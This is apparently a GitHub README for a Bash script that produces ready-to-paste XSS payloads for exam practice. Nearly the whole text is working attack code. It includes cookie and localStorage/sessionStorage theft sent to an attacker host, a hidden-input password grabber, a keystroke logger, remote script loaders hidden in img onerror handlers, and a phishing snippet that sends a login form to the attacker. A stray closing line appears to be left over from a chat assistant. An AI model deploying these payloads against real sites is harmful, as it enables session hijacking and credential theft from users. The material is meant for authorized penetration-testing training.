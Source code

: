 
# XSS-Template

`xss_template.sh` is a Bash script designed to streamline XSS payload generation while preparing for the Offensive Security Web Assessor (OSWA) exam. This tool helps you quickly create common XSS exploit templates using your own IP, port, and hosted malicious files.

---

## Overview

This tool was developed with speed, simplicity, and utility in mind. Instead of writing XSS payloads manually, this script generates pre-configured code snippets for different attack vectors including cookie theft, keylogging, phishing, and more.

---

## Features

- Interactive prompt for IP, Port, and hosted File name
- Outputs a file with templated JavaScript snippets
- Payloads cover a variety of XSS use cases
- Easily copy/paste-ready for lab or exam usage
- Supports both reflected and stored XSS scenarios

---

## Usage

Make the script executable and run:

```bash
chmod +x xss_template.sh
./xss_template.sh
````

You'll be prompted to enter:

* **IP Address** – Your attacker box (e.g., `10.10.14.5`)
* **Port** – Where your listener/server is running (optional)
* **File Name** – JavaScript file to be loaded (optional)

The script will generate an output file:

```
xxs_<IP>.txt
```

This file contains all the payloads, pre-filled with your IP, Port, and optional file reference.

---

## Template Categories

The following templates are generated:

### 1. **Steal Session Cookies**

```javascript
let cookie = document.cookie;
let encodedCookie = encodeURIComponent(cookie);
fetch("http://<IP>:<PORT>/exfil?data=" + encodedCookie);
```

### 2. **Steal Local Storage Tokens**

```javascript
fetch('http://<IP>:<PORT>/session?' + encodeURIComponent(localStorage.token));
```

### 3. **Steal Session Passwords**

Creates hidden input fields and exfiltrates entered data:

```javascript
let body = document.body;
let u = document.createElement('input');
u.type = 'text';
u.style.position = 'fixed';
let p = document.createElement('input');
p.type = 'password';
p.style.position = 'fixed';
body.append(u);
body.append(p);
setTimeout(function() {
    fetch('http://<IP>:<PORT>/k?u=' + u.value + '&p=' + p.value)
}, 5000);
```

### 4. **Steal Local Storage / Session Storage**

```javascript
let data = JSON.stringify(localStorage); // or sessionStorage
let encodedData = encodeURIComponent(data);
fetch("http://<IP>:<PORT>/exfil?data=" + encodedData);
```

### 5. **Cookie Exfiltration via `document.write`**

```html
<script>document.write('<img src="http://<IP>:<PORT>/?bogus=' + document.cookie + '" />');</script>
```

---

## XSS Payload Variants

### Payload 1

```html
<img src='x' onerror='src="http://<IP>:<PORT>/<FILE>"'>
```

### Payload 2

```html
<img src='x' onerror='const script = document.createElement("script"); script.src="http://<IP>:<PORT>/<FILE>"; script.async = true; document.body.appendChild(script);'>
```

### Payload 3

```html
<script src="http://<IP>:<PORT>/<FILE>"></script>
```

### Payload 4

```html
<img src=x onerror='fetch("http://<IP>:<PORT>/<FILE>")'>
```

---

## Keylogger

```javascript
function logKey(event) {
  fetch("http://<IP>:<PORT>/k?key=" + event.key);
}
document.addEventListener('keydown', logKey);
```

---

## Phishing Template

```javascript
fetch('/search/login').then(res => res.text().then(data => {
  document.documentElement.innerHTML = data;
  document.forms[0].action = 'http://<IP>';
  document.forms[0].method = 'get';
}));
```

---

## Output Example

Output is saved as:

```
xxs_10.10.14.5.txt
```

You can open the file and copy any payload with your inputs pre-filled.

---

## Screenshot

![image](https://github.com/user-attachments/assets/63d1716f-2722-4bbb-a015-4b6e948fcb02)

---

## Requirements

* Bash
* A listener or HTTP server (e.g., Python `http.server`) running at the specified IP and port
* A hosted malicious JS file (optional but recommended for some payloads)

---

## Disclaimer

This script is for educational and authorized penetration testing use only. Unauthorized use against systems without permission is illegal and unethical.

```

Let me know if you'd like to convert this into an HTML version for publishing or add auto-hosting instructions.
```
